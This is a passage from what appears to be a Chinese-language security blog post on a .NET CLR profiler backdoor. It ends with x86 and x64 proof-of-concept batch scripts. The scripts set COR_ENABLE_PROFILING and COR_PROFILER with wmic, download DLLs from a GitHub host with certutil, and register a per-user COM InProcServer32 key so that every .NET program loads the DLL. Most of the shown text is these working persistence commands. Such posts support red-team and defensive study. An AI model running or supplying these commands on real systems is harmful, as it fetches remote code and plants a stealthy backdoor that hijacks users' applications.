 重启后，成功修改，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-28/3-2.png)

现在直接启动.Net程序，弹框，成功加载msg.dll

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-28/3-3.png)

至此，后门思路验证成功


## 0x04 POC编写
---

对于32位操作系统，参考0x03的代码就好，x86 POC如下：

```
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"
wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll delete
SET KEY=HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1111-1111-1111-111111111111}\InProcServer32
REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\msg.dll" /F
REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F
```


对应64位系统，需要注意重定向问题，注册表存在32位和64位两个位置

**注:**

更多关于64位系统的重定向细节可参考文章《关于32位程序在64位系统下运行中需要注意的重定向问题》


结合到本文，32位需要对应32位的dll，64位对应64位的dll

所以，需要准备64位的dll，下载地址如下：

https://raw.githubusercontent.com/3gstudent/test/master/msg_x64.dll

过程不再赘述，64位POC如下：

```
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"
wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll delete
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg_x64.dll
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg_x64.dll delete
SET KEY=HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1111-1111-1111-111111111111}\InProcServer32
REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\msg_x64.dll" /F
REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F 
SET KEY=HKEY_CURRENT_USER\Software\Classes\WoW6432Node\CLSID\{11111111-1111-1111-1111-111111111111}\InProcServer32
REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\msg.dll" /F
REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F
```
